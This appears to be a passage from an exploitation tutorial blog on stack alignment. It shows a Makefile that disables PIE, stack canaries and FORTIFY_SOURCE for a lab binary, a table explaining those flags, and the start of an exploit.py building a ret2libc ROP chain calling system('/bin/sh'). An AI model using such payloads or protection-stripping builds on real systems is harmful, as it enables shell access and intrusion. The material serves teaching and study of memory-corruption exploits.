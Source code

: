‍

```makefile
all:
	gcc -no-pie -fno-stack-protector vulnerable.c -o vulnerable  -D_FORTIFY_SOURCE=0  -std=c99 

clean:
	rm -f vulnerablee
```

This compiles your `vulnerable.c`​​ file with **exploitation-friendly settings**

‍

```mathematica
+-------------------------------------------------------------+
|                  GCC Compilation Flags                      |
+------------------------+------------------------------------+
|        Flag            |            Description             |
+------------------------+------------------------------------+
| -no-pie                | Disables PIE (Position-Independent |
|                        | Executable).                       |
|                        | Ensures fixed memory addresses in  |
|                        | the binary (e.g., main, puts).     |
+------------------------+------------------------------------+
| -fno-stack-protector   | Disables stack canary protection.  |
|                        | Allows buffer overflows without    |
|                        | detection.                         |
+------------------------+------------------------------------+
| -D_FORTIFY_SOURCE=0    | Turns off extra glibc checks for   |
|                        | functions like gets(), strcpy().   |
|                        | Prevents automatic abort on unsafe |
|                        | operations.                        |
+------------------------+------------------------------------+
| -std=c99               | Compiles using C99 standard.       |
|                        | Ensures compatibility and better   |
|                        | behavior in modern compilers.      |
+------------------------+------------------------------------+
| -z execstack (missing) | This flag is NOT included here.    |
|                        | It would allow execution on stack  |
|                        | (needed for shellcode sometimes).  |
|                        | This binary has non-executable     |
|                        | stack (default in modern Linux).   |
+------------------------+------------------------------------+

```

‍

![image](/blogs/the-stack-allignment-problem/image-20250619001922-4gid30k.png)

‍

```pgsql
 File: exploit.py

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ import struct
   2   │ libc_base = 0x7ffff7da9000
   3   │ payload = b"A" * 8                                           # offset to rbp 
   4   │ payload += b"B" * 8                                          # rbp
   5   │ payload += struct.pack("<Q", libc_base + 0x000000000002a145) # pop rdi; ret;
   6   │ payload += struct.pack("<Q", 0x7ffff7f50ea4)                 # address of /bin/sh
   7   │ payload += struct.pack("<Q", 0x7ffff7dfc110)                 # address of System function() 
   8   │ payload += struct.pack("<Q", 0x7ffff7deb340)                 # address of exit function
   9   │ 
```